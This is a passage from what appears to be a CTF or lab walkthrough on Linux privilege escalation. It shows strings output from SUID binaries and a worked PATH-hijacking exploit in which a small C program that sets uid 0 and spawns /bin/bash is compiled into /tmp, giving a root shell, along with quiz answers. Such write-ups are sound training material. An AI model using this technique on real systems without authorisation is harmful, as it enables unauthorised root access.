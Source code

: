 ```console
GLIBC_2.2.5
fff.
fffff.
l$ L
t$(L
|$0H
service apache2 start
```
{: .nolineno }

Exploitation : 

```console
TCM@debian:~$ echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); return 0; }' > /tmp/service.c
TCM@debian:~$ ls /tmp/
backup.tar.gz  bash  nginxrootsh  service.c  useless  x.so
TCM@debian:~$ gcc /tmp/service.c -o /tmp/service
TCM@debian:~$ ls /tmp
backup.tar.gz  bash  nginxrootsh  service  service.c  useless  x.so
TCM@debian:~$ export PATH=/tmp:$PATH
TCM@debian:~$ /usr/local/bin/suid-env
root@debian:~# id
uid=0(root) gid=0(root) groups=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),1000(user)
```
{: .nolineno }

Answer : service apache2 start

## TASK 14 : Privilege Escalation - SUID (Environment Variables #2)
### What is the last line of the "strings /usr/local/bin/suid-env2" output? 

```console
TCM@debian:~$ strings /usr/local/bin/suid-env2
/lib64/ld-linux-x86-64.so.2
__gmon_start__
libc.so.6
setresgid
setresuid
system
__libc_start_main
GLIBC_2.2.5
fff.
fffff.
l$ L
t$(L
|$0H
/usr/sbin/service apache2 start
```
{: .nolineno }

